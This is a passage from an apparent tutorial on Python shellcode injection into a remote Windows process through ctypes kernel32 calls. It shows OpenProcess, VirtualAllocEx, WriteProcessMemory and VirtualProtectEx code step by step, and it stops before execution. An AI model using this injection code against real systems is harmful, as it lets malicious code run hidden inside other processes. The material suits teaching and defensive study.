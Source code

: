 ```
VirtualFreeEx.restype = ctypes.wintypes.BOOL

VirtualProtectEx = ctypes.windll.kernel32.VirtualProtectEx
VirtualProtectEx.argtypes = [ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, ctypes.c_size_t, ctypes.wintypes.DWORD, ctypes.wintypes.LPVOID]
VirtualProtectEx.restype = ctypes.wintypes.BOOL

WriteProcessMemory = ctypes.windll.kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = [ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, ctypes.wintypes.LPCVOID, ctypes.c_size_t, ctypes.wintypes.LPVOID]
WriteProcessMemory.restype = ctypes.wintypes.BOOL
```

You should notice that these functions look similar to those defined for the previous method. The functions ending in 'ex' serve similar purposes as their counterparts used previously, but act on a remote process. There are also a few functions included here to handle (heh...) remote processes. Once again, I'll provide a brief explanation of these functions, but check out the references below.

References:
- <https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory>
- <https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread>
- <https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess>
- <https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex>
- <https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex>

### Calling the kernel32 Functions

With the functions defined, it's time to execute the shellcode.

First, I need to obtain a handle for the target process with the PROCESS_VM_WRITE and PROCESS_VM_OPERATION access rights ([Reference](https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)). A handle is basically an identifier for the process in integer format used across Windows API functions. Note that the PID found earlier is passed here.
```
handle = OpenProcess(0x00028, False, my_pid)
```

Allocate a region of memory within the process corresponding to our handle. This region is the size of the shellcode, has the MEM_COMMIT allocation type, and the RWX memory protection value.
```
memptr = VirtualAllocEx(handle, 0, len(sc), 0x1000, 0x40)
```

Write the shellcode to the allocated memory region.
```
result = WriteProcessMemory(handle, memptr, sc, len(sc), 0)
```

Change protection of the allocated memory region to Read/Execute ([Reference](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)). There is no need for the Write attribute since we've already written the shellcode to this region.
```
result = VirtualProtectEx(handle, memptr, len(sc), 0x20, 0)
```
